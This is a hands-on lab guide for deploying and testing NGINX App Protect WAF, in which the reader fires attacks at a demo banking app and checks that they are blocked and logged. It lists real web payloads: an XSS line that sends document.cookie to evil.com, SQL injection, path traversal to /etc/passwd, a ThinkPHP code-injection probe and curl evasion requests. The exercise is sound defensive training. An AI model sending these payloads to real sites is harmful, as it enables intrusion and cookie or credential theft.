 == Access the Application and test the NGINX App Protect WAF to see how it works in action

Now that NGINX App Protect WAF is enabled, let's test its ability to
protect against Layer 7 attacks. Follow these steps:

Launch the Firefox browser and open Arcadia Finance app:

[NOTE]
.Note
====
Make sure you get the nginx-ingress EXTERNAL-IP with the command
`oc get svc --namespace=nginx-ingress`
====

. In the browser, open the NGINX Ingress Controller URL to access the Arcadia
app (replace with the nginx-ingress EXTERNAL-IP): `http://EXTERNAL-IP/`
. Click on `Login` and use the credentials `matt:ilovef5`
. You should see all the apps running (main, back, app2, and app3)
. Execute the same XSS attack we did in Module 1 by appending
`?a=<script>` to the end of the application URL. Observe that the attack
is now blocked and the user is provided with a support ID.

[source,html]
----
The requested URL was rejected. Please consult with your administrator.

Your support ID is: 5374014569933997707

[Go Back]
----

[NOTE]
.Note
====
Did you notice the blocking page is similar to F5 ASM and Adv. WAF?
====

image:./pictures/image18.png[image]

. Execute the second attack by appending
`?item='><script>document.location='http://evil.com/steal'+document.cookie</script>`
to the application URL, and observe the results.

image:./pictures/image19.png[image]

. Feel free to execute any attacks you would like and observe the
results.

Congratulations on securing your application!

*Here are some optional attacks you can try (Optional)*

[NOTE]
.Note
====
Execute the attack by appending the following string:
`?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+` to the end of
the application URL.
====

* SQL Injection - 
  `GET /?hfsagrs=-1+union+select+user%2Cpassword+from+users+--+`
* Remote File Include - 
  `GET /?hfsagrs=php%3A%2F%2Ffilter%2Fresource%3Dhttp%3A%2F%2Fgoogle.com%2Fsearch`
* Command Execution - 
  `GET /?hfsagrs=%2Fproc%2Fself%2Fenviron`
* HTTP Parser Attack - 
  `GET /?XDEBUG_SESSION_START=phpstorm`
* Predictable Resource Location Path Traversal - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd`
* Cross-Site Scripting - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=+oNmouseoVer%3Dbfet%28%29+`
* Information Leakage - 
  `GET /lua/login.lua?referer=google.com%2F&hfsagrs=efw`
* HTTP Parser Attack Forceful Browsing - 
  `GET /dana-na/auth/url_default/welcome.cgi`
* Non-browser Client, Abuse of Functionality, Server Side Code
  Injection, HTTP Parser Attack - 
  `GET /index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=md5&vars[1][]=HelloThinkPHP`
* Cross-Site Scripting - 
  `GET / HTTP/1.1\r\nHost: <ATTACKED HOST>\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:62.0) Gecko/20100101 Firefox/62.0\r\nAccept: */*\r\nAccept-Encoding: gzip,deflate\r\nCookie: hfsagrs=%27%22%5C%3E%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E\r\n\r\n`

*and many more from the bash script below (Just for your information)*

[NOTE]
.Note
====
Execute the attack by running the following bash script from the
terminal window:
====

[source,bash]
----
#!/bin/bash
echo "------------------------------"
echo "Starting security testing..."
echo "------------------------------"
echo ""

# Get the external IP address of the NGINX Ingress Controller
EXTERNAL_IP=$(oc get service my-nginx-ingress-controller-nginx-ingress -n nginx-ingress | awk 'NR==2{print $4}')

echo "---------------------------------------------------------------------"
echo "Multiple decoding"
echo "Sending: curl -k 'http://$EXTERNAL_IP/three_decodin%2525252567.html'"
echo "---------------------------------------------------------------------"

# Send a request with multiple decoding
curl -k "http://$EXTERNAL_IP/three_decodin%2525252567.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Apache Whitespace"
echo "Sending: curl -k 'http://$EXTERNAL_IP/tab_escaped%09.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with Apache whitespace
curl -k "http://$EXTERNAL_IP/tab_escaped%09.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "IIS Backslashes"
echo "Sending: curl -k 'http://$EXTERNAL_IP/regular%5cescaped_back.html'"
echo "-----------------------------------------------------------------------------"

# Send a request with IIS backslashes
curl -k "http://$EXTERNAL_IP/regular%5cescaped_back.html"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Carriage Return Escaping"
echo "Sending: curl -k 'http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2'"
echo "-----------------------------------------------------------------------------"

# Send a request with carriage return escaping
curl -k "http://$EXTERNAL_IP/carriage_return_escaped%0d.html?x=1&y=2"
sleep 3

echo "-----------------------------------------------------------------------------"
echo "Cross-site scripting"
echo "Sending: curl -k 'http://$EXTERNAL_IP/%25%25252541PPDATA%25'"
echo "-----------------------------------------------------------------------------"

# Send a request with cross-site scripting payload
curl -k "http://$EXTERNAL_IP/%25%25252541PPDATA%25"
----

=== Security Logging

To verify that F5 Application Protection WAF is logging security events,
follow these steps:

. Get the local syslog server POD.
+
In the terminal window, copy the below text and paste+enter:

[source,bash]
----
oc get pod -o wide
----

Example:

[source,bash]
----
[lab-user@bastion app-protect-waf]$ oc get pod -o wide
NAME                       READY   STATUS    RESTARTS   AGE   IP            NODE                                         NOMINATED NODE   READINESS GATES
app2-6bd5b4fbd7-fdcp2      1/1     Running   0          70m   10.128.2.51   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
app3-5699b95596-2fvgv      1/1     Running   0          70m   10.128.2.52   ip-10-0-186-204.us-east-2.compute.internal   <none>           <none>
backend-79c6bcf85c-9zdhl   1/1     Running   0          70m   10.129.2.41   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
main-584fc64db4-kz5c8      1/1     Running   0          70m   10.131.0.22   ip-10-0-223-88.us-east-2.compute.internal    <none>           <none>
syslog-bb47bd798-mhh64     1/1     Running   0          25m   10.129.2.46   ip-10-0-241-74.us-east-2.compute.internal    <none>           <none>
----
+
. Examine the logging matching the support ID of the attack.
+
In the terminal window, copy the below text and paste+enter:

[source,bash]
----
oc exec -it pod/syslog-bb47bd798-mhh64 -- cat /var/log/messages | grep 7175144470433567675
----

Where `pod/syslog-bb47bd798-mhh64` is the name of the pod and container
where the syslog server is running. `7175144470433567675` is the support ID
of the attack.

Example:

image:./pictures/image13.png[image]

Congratulations on completing the Lab! You have learned how to deploy
the NGINX App Protect WAF in Kubernetes and how to use the NGINX App
Protect WAF to protect your applications from attacks.
